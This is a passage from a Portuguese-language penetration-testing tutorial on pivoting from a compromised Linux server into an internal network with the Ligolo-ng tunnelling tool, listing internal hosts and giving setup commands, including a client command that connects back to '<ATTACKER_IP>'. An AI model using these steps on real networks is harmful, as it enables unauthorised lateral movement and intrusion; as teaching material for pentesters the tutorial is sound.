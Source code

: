 ```
172.16.20.1 - Actve Directory

172.16.20.2 - web-server windows IIS

172.16.20.3 - é o próprio server linux em que estamos
```

#### Agora temos certeza de que o server linux comprometido pode acessar diretamente outros hosts na rede interna, vamos para a pivotagem.

>

> ### 2 - Pivoting (pivotando ou pivotagem)

Se você pesquisar por "network pivoting" vai achar varias tools que possibilitam abrir tuneis atravez de redes comprometidas. Algumas aproveitam de conexões ssh para fazer ```port forwarding```, outras usam ```socks proxy``` entre um server e um client, e com essas tools é realmente possivel fazer pivot, mas aqui vamos ver uma tecnica diferente que é tão eficaz quanto as outras.

Nesse exemplos usaremos a tool Ligolo-ng.

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)
"Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS)."

O que o ligolo-ng faz de diferente é usar "userland network stack" e cria uma interface de rede virtual que é usada entre o client e server agent. O Ligolo-ng utiliza a interface TUN para redirecionar pacotes de rede entre o client e o server, criando um túnel virtual entre as máquinas. Nesse caso o client é usado na maquina alvo e o server é "startado" na maquina do atacante. (ref no fim da pág)


## ligolo setup

Seguindo o quickstart na documentação é bem simples.
- [https://docs.ligolo.ng/Quickstart/](https://docs.ligolo.ng/Quickstart/)

Em releases [https://github.com/nicocha30/ligolo-ng/releases](https://github.com/nicocha30/ligolo-ng/releases) faça download dos binarios client e server, depois descompacte:


{% include figure.liquid loading="eager" path="assets/img/clienteserver.png" width="700" height="700" class="img-fluid rounded z-depth-1" zoomable=true %}


Com os binarios descompactados temos o ```client``` que precisa esta na maquina alvo e o ```proxy``` que é o server. 


(Para enviar o client para a maquina alvo você pode um server http python ou, como temos credenciais ssh, podemos usar scp. Essa parte fica por conta do cenario que o pivot será feito.)


> #### 1 - inicie o server na maquina do atacante

```$ sudo ./proxy -serlfcert```

O server precisa ser iniciado com sudo porque o ligolo criar interface de rede e rotas na maquina.

{% include figure.liquid loading="eager" path="assets/img/startserver.png" width="700" height="700" class="img-fluid rounded z-depth-1" zoomable=true %}


> #### 2 - inicie o client na maquina comprometida

```$ ./client -connect <ATTACKER_IP>:11601 --accept-fingerprint <SERVER_FINGERPRINT>```

Usando o ip da maquina do atacante e a porta padrão que o server usa ao inicar, junto com o fingerprint do server pra usar o certificado TLS self-signed que o server gera.


```